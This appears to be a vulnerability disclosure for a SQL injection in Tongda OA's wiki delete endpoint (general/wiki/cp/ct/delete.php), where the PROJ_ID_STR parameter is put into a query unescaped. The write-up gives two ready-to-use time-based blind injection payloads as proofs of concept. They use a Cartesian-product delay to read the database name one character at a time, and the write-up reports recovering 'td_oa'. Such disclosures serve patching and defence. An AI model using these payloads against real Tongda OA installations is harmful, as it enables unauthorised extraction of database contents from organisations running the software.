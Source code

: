 SQL injection vulnerability exists in Tongda OA

version:Versions below v11.10 and v2017

Route: general/wiki/cp/ct/delete.php

There is an injected parameter: $PROJ_ID_STR

The code here is very concise. When $PROJ_ID_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![image](https://github.com/YXuanZ1216/cve/assets/150583404/87558cb1-636f-45b9-819c-0e7a782a0d35)

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/YXuanZ1216/cve/assets/150583404/1dc58caf-eac7-4be7-afb6-04f1a64b88d1)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time
POC
```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)% 20and(1)=(1
```
By analogy, the database name is obtained through blind injection: td_oa
